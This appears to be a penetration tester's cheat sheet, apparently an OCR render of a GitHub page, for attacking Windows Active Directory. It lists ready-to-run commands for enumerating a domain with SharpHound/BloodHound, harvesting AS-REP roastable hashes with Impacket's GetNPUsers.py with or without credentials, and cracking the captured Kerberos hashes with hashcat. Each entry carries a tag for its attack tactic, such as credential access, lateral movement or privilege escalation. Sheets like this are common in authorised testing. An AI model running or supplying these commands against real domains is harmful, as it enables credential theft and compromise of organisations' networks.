 # bloodhound
- service: ldap
- serivce: active_directory
- tactics: lateral_movement
- tactics: privilege_escalation

## invoke-bloodhound from sharphound.ps1 
- `import-module .\sharphound.ps1`
- `invoke-bloodHound -CollectionMethod All -domain target-domain -LDAPUser username -LDAPPass password`

---

# getnpusers.py
- service: kerberos
- tactics: credential_access
- tactics: lateral_movement

## check ASREPRoast for all domain users (credentials required)
- `python GetNPUsers.py <domain_name>/<domain_user>:<domain_user_password> -request -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`

## check ASREPRoast for a list of users (no credentials required)
- `python GetNPUsers.py <domain_name>/ -usersfile <users_file> -format <AS_REP_responses_format [hashcat | john]> -outputfile <output_AS_REP_responses_file>`

## check kerberoast
- `python GetNPUsers.py VICTIM-DOMAIN/ -usersfile user.txt -dc-ip <IP> -format hashcat`

## crack as_rep_response_file
> search for hashcat / john

---

# hashcat
- service: all
- tactics: credential_access

## crack as_rep_response_file (asreproast)
- `hashcat -m 18200 -a 0 as_rep_response_file passwords_file`

## crack as_rep_response_file (kerberoast)
- `hashcat -m 13100 --force TGSs_file passwords_file`

--- 